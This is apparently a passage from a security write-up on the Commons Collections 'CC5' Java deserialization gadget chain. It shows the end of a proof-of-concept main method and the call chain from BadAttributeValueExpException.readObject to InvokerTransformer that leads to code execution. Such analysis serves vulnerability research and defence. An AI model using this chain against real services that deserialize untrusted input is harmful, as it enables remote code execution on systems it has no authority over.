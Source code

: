 ```java
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC5();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
<img src="./images/16.png" alt="">

# Call chain

```java
BadAttributeValueExpException.readObject()
   TiedMapEntry.toString()
        LazyMap.get()
            ChainedTransformer.transform()
                ConstantTransformer.transform()
                    InvokerTransformer.transform()
```

# Summarize
> Deserialize `BadAttributeValueExpException` calls `TiedMapEntry#toString`, indirectly calling `LazyMap#get`, triggering the subsequent `Transformer` malicious execution chain